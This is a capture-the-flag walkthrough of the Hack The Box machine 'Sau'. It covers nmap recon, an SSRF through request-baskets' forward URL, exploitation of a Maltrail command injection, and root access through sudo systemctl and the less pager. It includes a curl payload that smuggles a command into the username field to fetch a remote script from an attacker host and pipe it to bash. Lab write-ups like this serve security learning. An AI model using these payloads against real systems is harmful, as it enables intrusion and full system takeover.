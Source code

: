 # Sau(HTB)

![Untitled](/assets/images/sau/0.png)

# NMAP

```bash
# Nmap 7.93 scan initiated Thu Jan  4 23:10:22 2024 as: nmap -sC -sV -oA nmap/sau 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 04 Jan 2024 15:10:58 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=1/4%Time=6596CA67%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  4 23:11:55 2024 -- 1 IP address (1 host up) scanned in 93.21 seconds
```

# Recon

Looking at the NMAP results we see that 3 ports are open. Port 22, 80 and 55555 are all open. However, port 80 is filtered meaning that the port is open but it is inaccessible externally. My first guess when I saw that filtered port in the NMAP result was that we would most likely have to find a SSRF (Server-Side Request Forgery) to elicit requests to port 80.  With that in mind I went to check out the web server that is running on port 55555.

![Untitled](/assets/images/sau/1.png)

Visiting port 55555 brings us to this webpage. From looking at the page we learn that this webpage is just a simple HTTP request bin that collects and intercepts HTTP requests. 

Lets Create a basket and test out the website!

![Untitled](/assets/images/sau/2.png)

If we now send a curl request to the URL of our basket

```bash
curl http://10.10.11.224:5555/utslgxu
```

we get a record of our request.

![Untitled](/assets/images/sau/3.png)

# USER

Looking at the settings for my basket we find a very promising settings that could potentially lead to SSRF.

![Untitled](/assets/images/sau/4.png)

The **`Forward URL`** configuration allows the user to forward the http request to another URL and by enabling the **`Proxy Response`** we could look at the response of the request that has been forwarded to another URL. From what we’ve seen, this feature basically works like a VPN for us. 

We configure the basket to forward our request to `[http://127.0.0.1:80](http://127.0.0.1:80)`and show us the response.

![Untitled](/assets/images/sau/5.png)

Now let’s try to hit the port 80 that we couldn’t previously access. 

![Untitled](/assets/images/sau/6.png)

We get greeted by the web page that is running on port 80. 

> *Since only the HTML is rendered and not the JS hence why the page looks so odd*
> 

Looking at the web page we see that it is running a service called Maltrail. A quick google search will reveal that Maltrail is an open sourced malicious traffic detection system. Googling the version will also reveal a OS Command Injection vulnerability affecting the version that is running on this instance.

```python
subprocess.check_output("logger -p auth.info -t \"%s[%d]\" \"%s password for %s from %s port %s\"" % (NAME.lower(), os.getpid(), "Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1]), stderr=subprocess.STDOUT, shell=True)
```

This line of code is the culprit for this OS Command Injection. From my understanding, the cause of this vulnerability is due to the fact that the `shell=TRUE`was set and our user input isn’t properly sanitized before being inserted into the command. Therefore, an attacker could just insert their own commands leading to Command injection.

Now that we are aware of the vulnerability, lets exploit it to get a SHELL on the machine.

```bash
curl http://10.10.11.224/utslgxu --data 'username=;`curl 10.10.14.123:8000/shell|bash`'
```

# Privilege Escalation

Now that we are on the box as the user puma, we can do our usual privilege escalation enumeration. Starting with `sudo -l`

![Untitled](/assets/images/sau/7.png)

We can see that we can run systemctl with sudo. A quick GTFO bin search will show a way to exploit this.

> [https://gtfobins.github.io/](https://gtfobins.github.io/)
> 

![Untitled](/assets/images/sau/8.png)

Basically when `systemctl` is ran with sudo the default pager `less` will be ran with sudo privileges as well. 

> A pager is **a tool for displaying the contents of files or other output on the terminal, in a user friendly way, across several screens if needed**.
> 

And when we get put into the pager in this case it is `less`. We can spawn a shell with the `!sh` command when we are in the less pager, giving us a shell as the root user!

![Untitled](/assets/images/sau/9.png)
